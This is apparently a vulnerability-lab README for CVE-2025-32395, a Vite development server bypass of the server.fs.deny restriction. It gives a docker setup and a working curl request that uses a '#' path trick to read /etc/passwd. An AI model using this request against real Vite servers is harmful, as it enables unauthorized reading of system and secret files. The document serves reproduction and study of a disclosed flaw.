


# Vite Development Server Arbitrary File Read Bypass (CVE-2025-32395)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a development server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.6, 6.1.5, 6.0.15, 5.4.18, and 4.5.13, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By using malformed URLs like `/@fs/{{project_path}}/#/../../../../../../etc/passwd`, an attacker can read arbitrary files on the filesystem.

The vulnerability occurs because the illegal character `#` in the URL path is handled differently at different stages of request processing, leading to a bypass of security checks.

This vulnerability is a bypass for the patch of [CVE-2025-31486](../CVE-2025-31486/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-32395>

## Environment Setup

Execute the following command to start a Vite 6.2.4 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

In this lab environment, the project_path is `/usr/src/`. You can verify this by accessing `/@fs/etc/passwd` and checking the response:



Next, by accessing `/@fs/{{project_path}}/#/../../../../../etc/passwd`, you can bypass this restriction and retrieve the contents of the file:

```
curl --request-target /@fs/Users/doggy/Desktop/vite-project/#/../../../../../etc/passwd http://localhost:5173
```

This request will return the contents of the `/etc/passwd` file:



> Note:When using `curl` with a direct URL, it will remove illegal `#` characters from the URL
>
> Additional note: Burp Suite also has issues handling illegal `#` characters in URLs
